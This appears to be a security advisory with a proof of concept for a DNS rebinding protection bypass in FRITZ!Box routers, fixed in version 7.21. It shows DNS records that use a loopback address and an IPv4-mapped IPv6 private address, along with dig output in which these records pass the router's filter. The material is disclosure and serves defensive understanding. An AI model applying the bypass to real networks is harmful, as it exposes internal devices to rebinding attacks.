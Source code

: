 <languages />

Versión fija
------------

\>= 7.21

POC
---

    Supposing the following resource records (RR) are configured for different
    subdomains of example.com:

    ------------------------------------------------------------------------
    private.example.com        1  IN  A     192.168.178.20
    local.example.com          1  IN  A     127.0.0.1
    privateipv6.example.com.   1  IN  AAAA  ::ffff:192.168.178.20
    ------------------------------------------------------------------------

    A DNS request to the FRITZ!Box router for the subdomain
    private.example.com returns an empty answer, as expected:

    ------------------------------------------------------------------------
    $ dig private.example.com @192.168.178.1
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> private.example.com @192.168.178.1
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 58984
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0

    ;; QUESTION SECTION:
    ;private.example.com.   IN  A
    ------------------------------------------------------------------------

    DNS requests for the subdomains privateipv6.example.com and
    local.example.com return the configured resource records successfully,
    effectively bypassing the DNS rebinding protection:

    ------------------------------------------------------------------------
    $ dig privateipv6.example.com @192.168.178.1 AAAA
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> @192.168.178.1 privateipv6.example.com AAAA
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 6510
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;privateipv6.example.com.   IN  AAAA

    ;; ANSWER SECTION:
    privateipv6.example.com. 1  IN  AAAA    ::ffff:192.168.178.20


    $ dig local.example.com @192.168.178.1
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> local.example.com @192.168.178.1
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 28549
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;local.example.com. IN  A

    ;; ANSWER SECTION:
    local.example.com. 1    IN  A   127.0.0.1
    ------------------------------------------------------------------------